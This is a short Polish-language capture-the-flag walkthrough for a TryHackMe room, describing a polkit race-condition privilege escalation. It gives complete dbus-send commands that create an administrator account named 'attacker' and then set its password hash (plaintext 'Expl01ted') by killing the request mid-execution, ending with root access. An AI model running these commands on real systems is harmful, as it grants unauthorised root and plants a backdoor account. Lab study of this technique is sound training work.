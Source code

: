 # Info
(https://tryhackme.com/room/hipflask)(Task 19)

# Step 1
1. Mierzymy czas jaki zajmie wyslanie wiadomosci do demona kont:
```console
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```
          
          [output]
          real    0m0.015s
          user    0m0.002s
          sys     0m0.000s

# Step 2
2. Interesuje nas 'real' 
Teraz musimy pobrać ten sam komunikat dbus, wysłać go, a następnie odciąć mniej więcej w połowie wykonywania
```console
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
```
        
W komendzie napisalismy 'sleep 0.005s' tyle dziala na exploitowanej maszynie, normalnie trzeba probowac rozne wartosci.
Komenda dodaje uzytkownika 'attacker' wiec wykonujemy komende i piszemy 'id attacker' jak nie ma to zmieniamy opoznienie i jeszcze raz.

# Step 3 
[Nadanie chasla]
Teraz musimy nadac haslo nowemu uzytkownikowi. Uzywamy dokladnie tej samej techniki tylko inny komunikat wysylamy do demona kont.
```console
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!
```   
 Komenda ustawi haslo na : Expl01ted

 # Step 4
 4. No i jak wszystko gra to sie logujemy i mamy roota :)
